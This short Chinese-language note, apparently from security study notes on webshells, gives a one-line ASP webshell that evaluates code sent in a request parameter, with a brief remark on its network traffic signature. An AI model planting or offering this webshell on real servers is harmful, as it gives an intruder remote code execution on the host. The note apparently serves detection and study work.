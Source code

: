 ![image-20230814110613830](img/WebShell/image-20230814110613830.png)

**asp**马如下：

```
<%eval request ("pass")%>
```

流量特征：=eval() cute
